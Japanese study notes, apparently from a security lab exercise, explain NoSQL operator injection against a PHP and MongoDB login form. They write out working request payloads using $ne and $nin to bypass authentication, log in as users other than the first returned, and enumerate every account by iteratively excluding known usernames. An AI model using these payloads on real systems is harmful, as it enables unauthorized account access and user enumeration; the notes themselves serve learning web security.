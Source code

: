 POSTリクエストの中でどうやって配列を送るのか
- PHPや多くの他の言語では、POSTリクエストボディに次のような構文を使うことで、配列を送ることができる
```php
user[$ne]=xxxx&pass[$ne]=yyyy
```
- この構文を使えば、ユーザーとパスワードの代わりに配列を送ることができ、MongoDBクエリに演算子を注入できる

こんな感じのwebログインのときに
![](https://i.imgur.com/zEDuLMm.png)

こんな感じで、オペレーターインジェクションする
`user[$ne]=適当な文字&pass[$ne]=aaaa`
- ユーザーネームが、asdf以外、パスワードがaaaa以外の全てのユーザーをクエリしていることになる
- ログインのphpは、ユーザーとパスワードがあってるユーザーが一つ以上あればログインを通してしまう
- なのでログインが通ってしまう
![](https://i.imgur.com/EGCjTVH.png)

## 他のユーザーとしてログイン
- アプリケーションのログイン画面をバイパスすることに成功しましたが、データベースから返された最初のユーザーにしかログインできないという制限があった
- `$nin` 演算子を使うことで、**どのユーザーでログインするかをコントロール**できるようにする
	- $nin は、「**指定した値のリストに含まれていないもの**」を条件にする演算子
- つまり、「admin 以外のすべてのユーザー」といった条件を作成することができる

例
以下のようなリクエストは、
```sql
user[$nin]=admin&pass[$ne]=aweasdf
```

こんなクエリ構造に変換される
- 「**ユーザー名が admin ではなく、パスワードが aweasdf ではないすべてのユーザーを取得せよ**」と言う意味になる
	- つまり、admin以外のユーザーのアカウントにログインできる
```sql
['username' => ['$nin' => ['admin']], 'password' => ['$ne' => 'aweasdf']]
```


$nin に複数の値を指定する
- $nin は**無視したい値のリスト**を受け取る
- たとえば、次のようにリクエストを拡張することができる
```sql
user[$nin][]=admin&user[$nin][]=jude&pass[$ne]=aweasdf
```

このクエリは、ユーザ名が、adminでもなく、judeでもなく、passwordが、aweasdfでもないアカウントってこと？
ここからどうやって絞り込んでくの？
- ログイン後の画面（セッションや表示）でユーザー名を確認することで絞り込んでいく
- 具体的な手順
	1. ログイン後の画面（セッションや表示）でユーザー名を確認する
	2. 次のリクエストで jude を $nin に追加する
	3. 今度は admin でも jude でもない別のユーザーでログインを試みる
	4. またログイン成功したら、そのユーザー名を記録して $nin に追加する
これを繰り返すことで、`$nin` リストを増やしながら、既知のユーザーを除外して、合計で何人いるのか(全員のユーザー)を確認できる
```sh
['username' => ['$nin' => ['admin', 'jude']], 'password' => ['$ne' => 'aweasdf']]
```
- `password[$ne]=dummy` の「dummy」部分は何でもよいが、実際に使われていないと確信できる文字列にすべき
